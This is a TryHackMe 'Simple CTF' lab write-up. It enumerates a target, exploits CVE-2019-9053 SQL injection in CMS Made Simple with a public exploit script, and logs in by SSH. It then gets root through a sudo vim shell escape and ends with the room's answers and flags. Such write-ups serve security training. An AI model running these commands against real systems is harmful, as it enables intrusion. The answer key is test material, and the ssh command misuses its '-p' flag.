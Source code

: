 # THM - simple CTF
**security - enumeration - privesc**

## Enumeration
IP Address : 10.10.24.237
### 1.1 
#### nmap
**nmap -A 10.10.24.237**
21 ftp 
80 http
2222 open ssh
### 1.2 
#### gobuster
**gobuster dir -u http://10.10.24.237 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt** 
/simple 
	cms (cmsms), if scroll we find version 2.2.8
/server-status => forbidden
### 1.3 
#### searchsploit
**searchsploit CMS Made simple | grep "2.x*"** 
CMS Made Simple < 2.2.10 - SQL Injection | php/webapps/46635.py
CVE-2019-9053:
"An issue was discovered in CMS Made Simple 2.2.8. It is possible with the News module, through a crafted URL, to achieve unauthenticated blind time-based SQL injection via the m1_idlist parameter."
### Conclusion, vulnerabilities
3 open ports, I put my efforts to the 80. 
Finding two paths, with one look like interesting : /simple.
It's a CMS, and we know his version. 
Using exploit-db to find if a vulnerability is known for this version of CMS.
It seems like a sql injection is possible.

## Exploit
### 1.1
#### 46635.py
**searchsploit -p 46635**
Use -p flag to dl the script
**python /opt/searchsploit/exploits/php/webapps/46635.py -u https://10.10.24.237/ -c -w /usr/share/wordlists/rockyou.txt**
username : mitch and pass cracked : secret
### 1.2
#### SSH
**ssh mitch@10.10.24.237 -p secret**
**python -c 'import pty; pty.spawn("/bin/bash")'**
Stabilize shell
### 1.3
#### Enumeration
**ls -la**
drwxr-x--- 3 mitch mitch 4096 aug 19  2019 .
drwxr-xr-x 4 root  root  4096 aug 17  2019 ..
-rw------- 1 mitch mitch  178 aug 17  2019 .bash_history
-rw-r--r-- 1 mitch mitch  220 sep  1  2015 .bash_logout
-rw-r--r-- 1 mitch mitch 3771 sep  1  2015 .bashrc
drwx------ 2 mitch mitch 4096 aug 19  2019 .cache
-rw-r--r-- 1 mitch mitch  655 mai 16  2017 .profile
-rw-rw-r-- 1 mitch mitch   19 aug 17  2019 user.txt
-rw------- 1 mitch mitch  515 aug 17  2019 .viminfo
### Conclusion
46635.py script work, the next step is jsut to connect with ssh protocol and find the flag.

## Privilege escalation
### 1.1  
#### sudo 
**sudo -l**
/usr/bin/vim
### 1.2  
#### GTFOBins 
Searching to GTOFBins website if a exploit exist to vim : **sudo vim -c ':!/bin/sh'**
**whoami : root**
**ls -la : root.txt**
### Conclusion
This user are able to lauch vim command with root permissions, so I rewrite the content of this command in order to invoke a shell, who start with root privilege.

## Responses
### How many services are running under port 1000? : 
**2**
### What is running on the higher port? : 
**ssh**
### What's the CVE you're using against the application? : 
**CVE-2019-9053**
### To what kind of vulnerability is the application vulnerable? : 
**sqli**
### What's the password? : 
**secret**
### Where can you login with the details obtained? : 
**ssh**
### What's the user flag? : 
**G00d j0b, keep up!**
### Is there any other user in the home directory? : 
**sunbath**
### What can you leverage to spawn a privileged shell? : 
**vim**
### What's the root flag? : 
**W3ll d0n3. You made it!**